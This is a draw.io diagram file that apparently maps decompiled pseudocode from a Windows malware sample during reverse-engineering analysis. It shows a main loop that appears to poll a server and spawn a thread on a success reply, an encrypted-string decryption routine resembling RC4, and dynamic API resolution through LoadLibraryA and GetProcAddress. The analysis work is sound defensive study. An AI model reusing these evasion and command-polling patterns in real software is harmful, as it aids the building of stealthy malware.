 <mxfile version="24.8.2">
  <diagram name="Page-1" id="z8TMenJuWHfGxh3X5ceK">
    <mxGraphModel dx="1871" dy="499" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IVjEpb5pE-T4-foRiEZy-24" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-332" y="394" width="408" height="399" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-18" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1659" y="861" width="642" height="540" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-5" value="" style="group" vertex="1" connectable="0" parent="1">
          <mxGeometry x="950" y="475" width="649" height="1150" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-6" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-5">
          <mxGeometry width="649" height="1058.21" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-7" value="void *__thiscall sub_402510(void *this)&lt;br&gt;{&lt;br&gt;&amp;nbsp; HMODULE LibraryA; // eax&lt;br&gt;&amp;nbsp; FARPROC ProcAddress; // eax&lt;br&gt;&amp;nbsp; FARPROC v4; // eax&lt;br&gt;&amp;nbsp; FARPROC v5; // eax&lt;br&gt;&amp;nbsp; FARPROC v6; // eax&lt;br&gt;&amp;nbsp; HMODULE v8; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v9; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v10; // [esp-Ch] [ebp-10h]&lt;br&gt;&amp;nbsp; HMODULE v11; // [esp-Ch] [ebp-10h]&lt;br&gt;&lt;br&gt;&amp;nbsp; *(_DWORD *)this = &amp;amp;off_405728;&lt;br&gt;&amp;nbsp; sub_402800(&amp;amp;unk_4070A8, 128);&lt;br&gt;&amp;nbsp; sub_4028A0(aYf, 13);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aRf8t69mIWm, 27);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj, 16);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aDz, 119);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj_0, 35);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aPj_1, 57);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;aRfX0wEtbUqP3, 20);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407328, 67);&lt;br&gt;&amp;nbsp; sub_4028A0(a4zb7SNcj, 36);&lt;br&gt;&amp;nbsp; sub_4028A0(SubKey, 64);&lt;br&gt;&amp;nbsp; sub_4028A0(ValueName, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(aAH, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4073E8, 31);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407408, 30);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407428, 32);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_407448, 39);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071D4, 4);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071D8, 5);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071E0, 9);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071EC, 15);&lt;br&gt;&amp;nbsp; sub_4028A0(&amp;amp;unk_4071FC, 4);&lt;br&gt;&amp;nbsp; sub_4028A0(LibFileName, 12);&lt;br&gt;&amp;nbsp; sub_4028A0(ProcName, 14);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg, 19);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_0, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aY, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aY_0, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_1, 21);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_2, 17);&lt;br&gt;&amp;nbsp; sub_4028A0(aXg_3, 20);&lt;br&gt;&amp;nbsp; LibraryA = LoadLibraryA(LibFileName);&lt;br&gt;&amp;nbsp; *((_DWORD *)this + 9) = LibraryA;&lt;br&gt;&amp;nbsp; if ( LibraryA )&lt;br&gt;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 1) = GetProcAddress(LibraryA, ProcName);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; ProcAddress = GetProcAddress(*((HMODULE *)this + 9), aXg);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v8 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 2) = ProcAddress;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v4 = GetProcAddress(v8, aXg_0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v9 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 3) = v4;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 4) = GetProcAddress(v9, aY);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v5 = GetProcAddress(*((HMODULE *)this + 9), aY_0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v10 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 5) = v5;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v6 = GetProcAddress(v10, aXg_1);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v11 = (HMODULE)*((_DWORD *)this + 9);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 6) = v6;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 8) = GetProcAddress(v11, aXg_2);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; *((_DWORD *)this + 7) = GetProcAddress(*((HMODULE *)this + 9), aXg_3);&lt;br&gt;&amp;nbsp; }&lt;br&gt;&amp;nbsp; return this;&lt;br&gt;}" style="text;html=1;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-5">
          <mxGeometry x="28.86" y="53" width="500.14" height="992.55" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-16" value="&lt;h1&gt;&lt;b&gt;(function 2, called by function 1 if v1 exists):&lt;/b&gt;&lt;/h1&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-5">
          <mxGeometry x="12" y="15" width="606" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-9" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.25;exitDx=0;exitDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-13" target="IVjEpb5pE-T4-foRiEZy-6">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="574.2" y="444.531" as="sourcePoint" />
            <mxPoint x="568" y="706" as="targetPoint" />
            <Array as="points">
              <mxPoint x="1200" y="396" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-10" value="Function_2 call" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="IVjEpb5pE-T4-foRiEZy-9">
          <mxGeometry x="-0.677" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-15" value="" style="group" vertex="1" connectable="0" parent="1">
          <mxGeometry x="221" y="158" width="620" height="1012" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-13" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-15">
          <mxGeometry width="492" height="1012" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-3" value="&lt;h1 style=&quot;margin-top: 0px;&quot;&gt;&lt;br&gt;&lt;/h1&gt;&lt;p&gt;void __noreturn sub_401760()&lt;br&gt;{&lt;br&gt;&amp;nbsp; unsigned int v0; // eax&lt;br&gt;&amp;nbsp; void *v1; // eax&lt;br&gt;&amp;nbsp; int v2; // eax&lt;br&gt;&amp;nbsp; unsigned int v3; // esi&lt;br&gt;&amp;nbsp; HANDLE Thread; // eax&lt;br&gt;&amp;nbsp; int v5[2]; // [esp+Ch] [ebp-15E4h] BYREF&lt;br&gt;&amp;nbsp; char Buffer[64]; // [esp+14h] [ebp-15DCh] BYREF&lt;br&gt;&amp;nbsp; struct WSAData WSAData; // [esp+54h] [ebp-159Ch] BYREF&lt;br&gt;&amp;nbsp; _BYTE v8[1024]; // [esp+1E4h] [ebp-140Ch] BYREF&lt;br&gt;&amp;nbsp; char v9[1024]; // [esp+5E4h] [ebp-100Ch] BYREF&lt;br&gt;&amp;nbsp; char v10[1024]; // [esp+9E4h] [ebp-C0Ch] BYREF&lt;br&gt;&amp;nbsp; char v11[2056]; // [esp+DE4h] [ebp-80Ch] BYREF&lt;br&gt;&amp;nbsp; int v12; // [esp+15ECh] [ebp-4h]&lt;br&gt;&lt;br&gt;&amp;nbsp; WSAStartup(0x202u, &amp;amp;WSAData);&lt;br&gt;&amp;nbsp; v0 = time(0);&lt;br&gt;&amp;nbsp; srand(v0);&lt;br&gt;&amp;nbsp; v1 = operator new(0xA8u);&lt;br&gt;&amp;nbsp; v5[1] = (int)v1;&lt;br&gt;&amp;nbsp; v12 = 0;&lt;br&gt;&amp;nbsp; if ( v1 )&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v2 = &lt;font color=&quot;#ff8b26&quot;&gt;sub_402510&lt;/font&gt;(v1); //function_2&lt;br&gt;&amp;nbsp; else&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v2 = 0;&lt;br&gt;&amp;nbsp; v12 = -1;&lt;br&gt;&amp;nbsp; dword_4075BC = v2;&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#baff42&quot;&gt;sub_4027A0&lt;/font&gt;(1, &amp;amp;unk_4075C0); // function_4&lt;br&gt;&amp;nbsp; &lt;font color=&quot;#9cff63&quot;&gt;sub_4027A0&lt;/font&gt;(2, byte_4075E0);&lt;br&gt;&amp;nbsp; while ( 1 )&lt;br&gt;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v10, 0, sizeof(v10));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v8, 0, sizeof(v8));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v11, 0, 0x800u);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v9, 0, sizeof(v9));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v5[0] = 0;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v3 = sub_402EE0(v10, &amp;amp;unk_4075C0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; sub_402950(Buffer);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; ProcessDataBuffers(v8, v10, v3);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; sub_402A50(v11, (int)byte_4075E0, (int)v8);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; if ( sub_4034D0(v11, byte_4075E0, Buffer, v9, 1024, v5) &amp;amp;&amp;amp; !strcmp(v9, aStatusSuccess) )&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; Thread = CreateThread(0, 0, sub_401960, 0, 0, 0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; WaitForSingleObject(Thread, 0xFFFFFFFF);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; }&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; else&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; SleepForX(15000);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; sub_401C50();&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; SleepForX(10000);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; }&lt;br&gt;&amp;nbsp; }&lt;br&gt;}&lt;/p&gt;" style="text;html=1;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-15">
          <mxGeometry x="9" y="69" width="422.88" height="890" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-25" value="&lt;h1&gt;(function_1 a.k.a main() calls everything else)&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="IVjEpb5pE-T4-foRiEZy-15">
          <mxGeometry x="-11" y="12" width="631" height="120" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-17" value="&#xa;unsigned int __thiscall sub_4028A0(int this, int a2, unsigned int a3)&#xa;{&#xa;  int v3; // edx&#xa;  unsigned int result; // eax&#xa;  int v5; // ebp&#xa;  unsigned __int8 v6; // cl&#xa;  char v7[128]; // [esp+10h] [ebp-80h] BYREF&#xa;&#xa;  v3 = 0;&#xa;  result = 0;&#xa;  qmemcpy(v7, (const void *)(this + 40), sizeof(v7));&#xa;  v5 = 0;&#xa;  if ( a3 )&#xa;  {&#xa;    do&#xa;    {&#xa;      v3 = (v3 + 1) % 128;&#xa;      v6 = v7[v3];&#xa;      v5 = (v6 + v5) % 128;&#xa;      v7[v3] = v7[v5];&#xa;      v7[v5] = v6;&#xa;      *(_BYTE *)(result + a2) ^= v7[(v6 + (unsigned __int8)v7[v3]) % 128];&#xa;      ++result;&#xa;    }&#xa;    while ( result &lt; a3 );&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="1700" y="940" width="407" height="440" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-20" value="&lt;h1&gt;(function 3, called by function 2 multiple times):&lt;/h1&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1663" y="888" width="606" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-21" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-6" target="IVjEpb5pE-T4-foRiEZy-18">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1670" y="1040" as="sourcePoint" />
            <mxPoint x="1720" y="990" as="targetPoint" />
            <Array as="points">
              <mxPoint x="1980" y="740" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-23" value="unsigned int __stdcall sub_4027A0(int a1, char *a2)&#xa;{&#xa;  unsigned int result; // eax&#xa;&#xa;  if ( a1 == 1 )&#xa;  {&#xa;    result = 0;&#xa;    strcpy(a2, aSv);&#xa;  }&#xa;  else&#xa;  {&#xa;    result = a1 - 2;&#xa;    if ( a1 == 2 )&#xa;    {&#xa;      result = strlen(aPxE77y) + 1;&#xa;      qmemcpy(a2, aPxE77y, result);&#xa;    }&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-296" y="446" width="312" height="310" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>

